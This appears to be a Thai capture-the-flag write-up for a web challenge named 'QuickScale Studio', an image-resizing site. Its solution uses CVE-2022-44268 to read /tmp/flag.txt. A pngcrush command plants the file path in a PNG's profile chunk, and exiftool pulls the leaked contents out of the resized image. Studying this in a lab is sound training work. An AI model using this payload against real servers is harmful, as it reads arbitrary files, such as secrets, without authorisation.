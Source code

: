 # QuickScale Studio

| Category | Difficulty | Point |
| :-: | :-: | :-: |
| Web Application | Hard | 500 |

สมชายเขาได้ประสบปัญหากับการที่จะที่อยากย่อขนาดรูป แต่ด้วยที่เขาเป็น dev สุดเท่ห์ การจะเข้าไปตัดรูปใน photoshop คงง่ายเกินไปสำหรับเขา เขาจึงทำเว็บไซต์ที่สามารถ ย่อภาพได้ตั้งแต่ 25% - 100% และด้วยการที่จะทำแล้วไว้ใช้คนเดียวคงจะน่าเสียดายแย่ เขาจึงเปิดให้ใช้ฟรี และเวลาก็ล่วงเลยมามากกว่า 2 ปี ในฐานะที่คุณเป็น Cyber Security คุณจึงแนะนำให้ สมชายเช็ค github repo project ว่าโดนเตือนเรื่อง ใช้ version ที่มีช่องโหว่ไหม แต่เขาไม่สนใจ เพราะเขามั่นใจว่าเรามีระบบป้องกันการโดย injection อย่างดี และบอกกับคุณว่าถ้าแน่จริงก็ลอง hack แล้วบอกว่าค่าในไฟล์ `/tmp/flag.txt` คืออะไรหน่อยสิ ทำไม่ได้ละสิหึ

Format: `CSUBRU{...}`

---

No hint

---

Image: `ic-quick-scale-studio`

---

ใช้ CVE-2022-44268 เพื่ออ่านไฟล์ /tmp/flag.txt
ตัวอย่างคำสั่ง craft payload
```bash
pngcrush -text a "profile" "/tmp/flag.txt" Arona.png out.png
```

ให้อัพแล้วโหลดกลับมาแล้วใช้
```bash
exiftool -b filename.png
```
